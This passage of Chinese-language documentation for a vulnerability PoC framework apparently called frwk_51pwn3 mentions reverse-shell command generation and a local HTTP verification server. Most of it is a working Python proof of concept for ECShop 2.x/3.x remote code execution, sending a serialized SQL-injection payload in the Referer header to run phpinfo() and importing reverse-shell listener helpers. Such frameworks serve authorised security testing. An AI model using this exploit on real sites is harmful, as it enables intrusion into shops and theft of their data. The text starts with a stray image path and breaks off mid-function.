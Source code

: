将生成一长串执行指令，执行这些指令便可以反弹出一个 shell。

##### HTTP 服务内置

对于一些需要第三方 HTTP 服务才能验证的漏洞，frwk_51pwn3 也提供对应的API，支持在本地开启一个 HTTP 服务方便进行验证。

可查看测试用例：https://github.com/51pwn-framework/frwk_51pwn/blob/master/tests/test_httpserver.py

#### PoC 代码示例<div id="PoCexample"></div>

##### PoC Python 代码示例<div id="pyexample"></div>

[Ecshop 2.x/3.x Remote Code Execution](http://www.seebug.org/vuldb/ssvid-97343) PoC:

```
import base64
from urllib.parse import urljoin

from frwk_51pwn.api import Output, POCBase, register_poc, requests, logger
from frwk_51pwn.api import get_listener_ip, get_listener_port
from frwk_51pwn.api import REVERSE_PAYLOAD
from frwk_51pwn.lib.utils import random_str
from requests.exceptions import ReadTimeout


class DemoPOC(POCBase):
    vulID = '97343'  # ssvid
    version = '3.0'
    author = ['seebug']
    vulDate = '2018-06-14'
    createDate = '2018-06-14'
    updateDate = '2018-06-14'
    references = ['https://www.seebug.org/vuldb/ssvid-97343']
    name = 'Ecshop 2.x/3.x Remote Code Execution'
    appPowerLink = ''
    appName = 'ECSHOP'
    appVersion = '2.x,3.x'
    vulType = 'Romote Code Execution'
    desc = '''
    '''
    samples = []
    install_requires = ['']

    def _verify(self):
        result = {}
        path = "user.php?act=login"
        url = urljoin(self.url, path)
        echashs = [
            '554fcae493e564ee0dc75bdf2ebf94ca',  # ECShop 2.x hash
            '45ea207d7a2b68c49582d2d22adf953a'  # ECShop 3.x hash
        ]

        for echash in echashs:
            payload = ('{0}ads|a:2:{{s:3:"num";s:116:"*/ select 1,0x2720756E696F6E202F2A,3,4,5,'
                       '6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10'
                       '-- -";s:2:"id";s:10:"\' union /*";}}{0}').format(echash)
            headers = {"Referer": payload}
            try:
                resp = requests.get(url, headers=headers)
                if resp and resp.status_code == 200 and "<title>phpinfo()</title>" in resp.text:
                    result['VerifyInfo'] = {}
                    result['VerifyInfo']['URL'] = url
                    result['VerifyInfo']['Referer'] = payload
                    break
            except Exception as ex:
                pass
```